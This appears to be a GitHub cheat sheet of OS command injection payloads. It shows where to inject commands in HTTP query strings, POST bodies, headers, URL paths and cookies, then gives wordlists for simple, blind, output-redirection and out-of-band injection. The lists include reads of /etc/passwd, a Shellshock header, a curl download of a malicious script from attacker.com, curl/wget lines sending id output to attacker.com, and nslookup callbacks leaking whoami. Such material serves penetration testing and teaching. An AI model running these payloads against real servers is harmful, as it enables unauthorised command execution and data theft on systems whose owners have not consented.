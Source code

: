 

# OS Command Injection Payloads

  - [Description](#description)
  - [Wordlist](#wordlist)
  - [Simple Case](#simple-case)
  - [Blind Injection](#blind-injection)
  - [Blind Injection with Output Redirection](#blind-injection-with-output-redirection)
  - [Out of Band](#out-of-band)
  - [ChatGPT Payload](#chatgpt-payload)
___
# Description

To exploit an OS command injection vulnerability, an attacker must find a place where the application accepts user input and then inject a malicious payload that executes arbitrary commands on the server. This usually involves crafting an HTTP request where the payload is placed in an input field that the server processes with a system command.

Here are some examples of where to put a command injection payload in HTTP requests:

### 1. In Query Parameters

When an application takes a query parameter as input and uses it in a command execution on the server, you can place the payload in the parameter value.

**Example HTTP Request:**
```
GET /ping?host=127.0.0.1;cat%20/etc/passwd HTTP/1.1
Host: vulnerable-website.com
```
In this case, the server might execute a command like `ping 127.0.0.1` based on the input. The payload (`;cat /etc/passwd`) tries to execute an additional command to read the contents of the `/etc/passwd` file.

### 2. In POST Data

If a web application processes POST data to execute commands, you can inject the payload directly into the form data.

**Example HTTP Request:**
```
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin&command=whoami;id
```
In this example, the `command` parameter contains a payload (`whoami;id`) that tries to execute `whoami` followed by `id`. If the server executes this input as part of a command, the payload can run.

### 3. In HTTP Headers

Attackers may inject command injection payloads into HTTP headers if the application processes header values and uses them in commands.

**Example HTTP Request:**
```
GET / HTTP/1.1
Host: vulnerable-website.com
User-Agent: curl; ls -la
```
If the server uses the `User-Agent` header in a command execution, the payload (`; ls -la`) may run on the server.

### 4. In URL Path

Command injection payloads can also be placed in the URL path if the web application uses parts of the path to execute commands.

**Example HTTP Request:**
```
GET /execute/ls%20-la;cat%20/etc/passwd HTTP/1.1
Host: vulnerable-website.com
```
Here, the URL path `/execute/ls -la;cat /etc/passwd` is designed to manipulate the command execution on the server.

### 5. In Cookie Header

If the web application reads cookies and uses them in a system command, the payload can be placed inside the cookie value.

**Example HTTP Request:**
```
GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=abc123; curl -o /tmp/malicious.sh http://attacker.com/malicious.sh
```
The payload attempts to download a malicious script if the server processes the cookie value in a system command.

### Crafting the Payload

Common payloads for command injection include using separators like `;`, `&&`, `|`, or `||` to chain commands. Examples:
- `; cat /etc/passwd`
- `&& whoami`
- `| ls -la`
- `|| echo vulnerable`

By injecting these payloads in the right places, attackers can exploit command injection vulnerabilities to execute arbitrary commands on the server. Proper input validation, sanitization, and secure coding practices are crucial to mitigate these risks.

## Wordlist
```sh
;whoami;
;sleep+10;
nslookup+burpcollaborator.net
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1
```
## Simple Case
```sh
& echo test &

& whoami #

;ls

;ls;

User-Agent: () { :; }; echo ; /bin/bash -c "cat /etc/passwd" >> In User-Agent Header.
```
## Blind injection
Example:  name=test&email=```;sleep 5;```&message=test or, name=test&email=```||sleep 5||```&message=test
```sh
; sleep 10 ||

& sleep 10 #

; sleep 10 ;

asd||sleep 5|| >> Middle of two parameter.

||ping+-c+10+127.0.0.1||

& ping -c 10 127.0.0.1

asd||sleep 5 # >> Last parameter or to comment out extra parameter
```
## Blind injection with output redirection
If you identified a blind Command Injection try to find a writable folder to read your output. Suppose, if a application serves it's images for the product catalog from location like ```/image?filename=22.jpg```, you can redirect the output from the injected command to a file in this ```images``` folder, and then use this URL to retrieve the contents of the file.
```sql
& whoami > /var/www/images/output.txt #
; whoami > /var/www/images/output.txt ;
```
Now, you can read content like this ```/image?filename=output.txt```

## Out of band
```sh
||nslookup x.vyx05udastzq6llyo3y9vqiswj2aq3vrk.oastify.com||

& nslookup x.burpcollaborator.net #

& nslookup `whoami`.xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

& nslookup $(whoami).xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-01: /api/v1/pdf/generate_zip?seed_id=521b62f5b7132de722027388|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-02: https://api.seedr.ru/uploads/521b62f5b7132de722027388|nslookup -q=cname 0vwm3493ytajvrc4a2g7ptfmgdm7a04o0crzhn6.burpcollaborator.net.&.zip

Example-03: email=a@a.com|nslookup -q=cname 6dkbk5sl74e1lw093edka1x3buhl5g34s.oastify.com.&.zip
```
## ChatGpt Payload
```
; ls
; dir
| ls
| dir
&& ls
&& dir
|| ls
|| dir
`ls`
`dir`
$(ls)
$(dir)
; id
; whoami
| id
| whoami
&& id
&& whoami
|| id
|| whoami
`id`
`whoami`
$(id)
$(whoami)
; id > /tmp/output.txt
; whoami > /tmp/output.txt
| id > /tmp/output.txt
| whoami > /tmp/output.txt
&& id > /tmp/output.txt
&& whoami > /tmp/output.txt
|| id > /tmp/output.txt
|| whoami > /tmp/output.txt
`id` > /tmp/output.txt
`whoami` > /tmp/output.txt
$(id) > /tmp/output.txt
$(whoami) > /tmp/output.txt
; curl http://attacker.com?data=$(id)
; wget http://attacker.com?data=$(id)
| curl http://attacker.com?data=$(id)
| wget http://attacker.com?data=$(id)
&& curl http://attacker.com?data=$(id)
&& wget http://attacker.com?data=$(id)
|| curl http://attacker.com?data=$(id)
|| wget http://attacker.com?data=$(id)
`curl http://attacker.com?data=$(id)`
`wget http://attacker.com?data=$(id)`
$(curl http://attacker.com?data=$(id))
$(wget http://attacker.com?data=$(id))
```
